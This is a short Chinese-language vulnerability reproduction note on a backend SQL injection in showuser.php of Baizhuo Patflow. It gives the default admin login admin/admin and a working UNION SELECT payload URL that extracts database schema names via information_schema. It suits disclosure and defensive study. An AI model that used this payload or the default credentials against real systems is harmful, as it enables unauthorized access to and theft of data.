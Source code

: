 # 百卓 Patflow showuser.php 后台SQL注入漏洞

## 漏洞描述

百卓 Patflow showuser.php文件参数过滤不充分，导致后台存在SQL注入漏洞

## 漏洞影响

<a-checkbox checked>百卓 Patflow</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210718204721988.png)



默认口令登录后台 admin/admin

存在漏洞的文件为 shwouser.php,验证POC为

```plain
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20from%20information_schema.SCHEMATA),23
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210723103203935.png)

